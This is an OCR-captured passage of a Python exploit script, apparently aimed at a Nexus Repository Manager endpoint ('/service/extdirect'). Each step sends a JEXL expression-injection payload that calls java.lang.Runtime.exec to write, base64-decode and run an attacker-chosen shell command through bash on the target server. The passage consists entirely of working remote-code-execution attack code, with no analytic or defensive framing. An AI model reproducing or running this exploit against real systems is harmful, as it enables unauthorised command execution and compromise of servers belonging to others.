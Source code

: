                 print("[+] Preparing temp file =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"sed -i 1cpwn2  /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                            verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Cleaning temp file =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"sed -i /[^pwn2]/d /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Writing command into temp file =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"sed -i 1s/pwn2/{echo," + command_str + "}|{base64,-d}>pwn.txt/g /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Decode base64 command =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"bash /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Executing command =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"bash pwn.txt\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)
                print('')
